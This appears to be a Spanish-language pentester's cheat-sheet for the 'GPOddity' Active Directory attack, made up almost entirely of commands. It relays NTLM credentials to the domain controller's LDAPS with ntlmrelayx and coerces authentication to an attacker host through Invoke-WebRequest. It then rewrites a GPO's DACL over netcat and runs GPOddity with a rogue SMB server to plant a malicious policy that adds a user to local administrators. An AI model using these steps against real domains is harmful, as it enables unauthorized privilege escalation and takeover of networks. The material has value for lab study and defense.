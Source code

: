 # GPO Abuse - GPOddity 

Tags: #AD #Windows #Powershell #PrivEsc #PowerView 

[![GPOAbuse.png | 700 ](https://i.postimg.cc/jCVtQStr/GPOAbuse.png)](https://postimg.cc/BPCrJsjh)

```bash 
- GPOddity combina 'NTLM Relaying' y la modificación de 'Group Policy Container' 
- Al transmitir las credenciales de un usuario quien tiene 'WriteDACL' en GPO, podemos modificar el path (gPCFilesSysPath) de una plantilla de grupo (por defecto es SYSVOL)
- Esto habilita la carga de plantillas maliciosas desde una ubicación que podemos controlar 
```

```powershell 
❯ Get-DomainGPO -Identity 'DevOps Policy'     # Obtener info de la politica 
```

## Relaying 

### Paso 1 

```bash 
❯ ntlmrealyx.py -t ldaps://IP_DC -wh IP_Attack --http-port '80,8080' -i --no-smb-server    # Hacer un ataque de relaying desde Kali   
```

```powershell 
# Crear un 'shortcut' en la máquina de atacante Windows con el siguiente comando:  
❯ powershell.exe -Command "Invoke-WebRequest -Uri 'http://IP_Attack' -UseDefaultCredentials"
```

```bash 
❯ nc 127.0.0.1 11000    # Conectarse por netcat para escribir la politica 

	write_gpo_dacl user {GPO Name}             # Ejemplo de GPO = {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

### Paso 2 

* [GPOddity](https://github.com/synacktiv/GPOddity)

```bash 
# Generar un 'Group Policy Template' malicioso en Kali 

❯ python3 gpoddity.py --gpo-id 'GPO Name' --domain 'domain.corp' --username 'user' --password 'password' --command 'net localgroup administrators user /add' --rogue-smbserver-ip 'IP_Attack' --rogue-smbserver-share 'std1-gp' --dc-ip 'IP_DC' --smb-mode none  
```

```bash 
# Copiar el contenido 
❯ mkdir /mnt/std1-gp                # Crear un directorio 
❯ cp -r /GPT_Out/* /mnt/std1-gp     # Copiar los archivos del comando anterior 
```

### Paso 3 

```powershell 
❯ net share std1-gp=C:\AD\std1-gp   # Crear un share como 'Administrator' en la máquina de atacante Windows 
❯ net share std1-gp /delete         # Eliminar el recurso compartido 
```

```powershell 
❯ xcopy C:\AD\user1.lnk \\dcorp-ci\AI  
❯ winrs -r:dcorp-ci cmd /c "set computername && set username" 
```